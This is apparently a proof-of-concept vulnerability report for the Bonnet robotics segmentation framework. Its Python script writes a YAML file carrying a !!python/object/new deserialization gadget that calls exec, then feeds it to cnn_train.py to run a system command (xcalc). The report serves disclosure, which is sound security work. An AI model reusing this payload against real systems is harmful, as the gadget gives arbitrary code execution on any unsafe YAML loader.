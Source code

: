 # Description
Bonnet: An Open-Source Training and Deployment Framework for Semantic Segmentation in Robotics. 
# Proof of Concept
* run the exploit code
```
import os

# exploit code
# uncomment if repo not yet cloned
#os.system("git clone https://github.com/PRBonn/bonnet.git")
os.chdir("bonnet/train_py/")

payload ="""!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
 """
os.system("rm exploit.yml")
open("exploit.yml",'w+').write(payload)
cmd = """./cnn_train.py --data exploit.yml"""
os.system(cmd)

```
* calc will be popped after executing the exploit code. 
* fix is to be applied in different parts of the entire repo since there is vulnerable code in different parts of this project .
![bonnet_poc](https://user-images.githubusercontent.com/43377443/107218112-2e728480-6a35-11eb-901f-5032e628f4a8.png)
